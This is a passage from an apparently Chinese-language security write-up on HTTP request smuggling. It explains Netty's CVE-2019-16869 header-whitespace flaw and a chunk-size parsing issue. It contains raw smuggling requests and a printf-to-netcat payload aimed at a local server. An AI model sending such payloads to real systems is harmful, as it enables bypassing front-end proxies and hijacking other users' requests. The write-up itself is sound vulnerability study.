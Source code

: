 #### optional whitespace/cve-2019-16869

RFC7320中要求header部分 字段之后要紧跟`:`，之后是optional whitespace；如果有中间件没有严格实现这个RFC就会有被攻击的可能

cve-2019-16869是Netty中间件的漏洞，在4.1.42Final版本前对于Header头的处理是使用[splitHeader](https://github.com/netty/netty/blob/netty-4.1.41.Final/codec-http/src/main/java/io/netty/handler/codec/http/HttpObjectDecoder.java)方法，其中关键代码如下：

```java
for (nameEnd = nameStart; nameEnd < length; nameEnd ++) {
  char ch = sb.charAt(nameEnd);
  if (ch == ':' || Character.isWhitespace(ch)) {
    break;
  }
}
```

这里将空格与冒号同样处理了，也就是说如果存在空格会把冒号之前的field name正常处理而不会抛出错误或进行其他操作

```http
POST /getusers HTTP/1.1
Host: www.backend.com
Content-Length: 64
Transfer-Encoding : chunked

0

GET /hacker HTTP/1.1
Host: www.hacker.com
hacker: hacker
```

用ELB作前端服务器，Netty作后端服务器，当发送上述请求时由于TE字段冒号前的空格不符合RFC标准，会被ELB忽略 按照CL解析并转发给后端的Netty，Netty会优先解析TE（即使不合RFC的标准）并拆分为一以下两个请求

```http
POST /getusers HTTP/1.1
Host: www.backend.com
Content-Length: 64
Transfer-Encoding : chunked

0
```

```http
GET /hacker HTTP/1.1
Host: www.hacker.com
hacker: hacker
```

在4.1.42Final中修复了这个洞，当不规范的请求头出现时会返回400

#### chunk size issue

```bash
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'0000000000000000000000000000042\r\n'\
'\r\n'\
'GET /tmp/ HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-Encoding: chunked\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
```